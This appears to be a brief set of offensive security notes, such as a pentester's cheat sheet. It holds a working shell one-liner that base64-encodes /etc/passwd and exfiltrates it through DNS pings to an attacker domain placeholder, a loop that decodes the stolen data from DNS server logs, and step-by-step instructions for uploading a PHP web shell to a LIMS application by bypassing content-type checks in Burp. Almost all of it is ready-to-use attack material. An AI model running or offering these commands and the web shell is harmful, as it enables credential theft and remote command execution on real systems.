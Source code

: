 ```
tmp

```


# Encode and exfiltrate data:
```
for i in $(cat /etc/passwd); do key=$(echo "$i" | base64 | sed 's/=//g'); ping -c 1 $key.<FQDN>; done
```

# Decode and retrieve the information:
```
for i in $(cat /var/log/named/named.log); do echo $i | awk '$1 ~ "<FQDN>" { gsub(".<FQDN>",""); print $1}' | base64 -d -i ; done  >> info.txt
```


# change file name with burp
https://www.exploit-db.com/exploits/49440

1. Login in the application
2. Go to Clients and you can add new client o modify existent
3. Click examination botton and upload a test.php with content:
```
"<?php if(isset($_REQUEST['cmd'])){ echo "<pre>"; $cmd =
($_REQUEST['cmd']); system($cmd); echo "</pre>"; die; }?>"
```
4. Click Upload and intercept with burpsuite
5. Change the content type to image/png
6. Go to the path:
```
http://localhost:8080/lims/uploads/test.php?cmd=dir
```






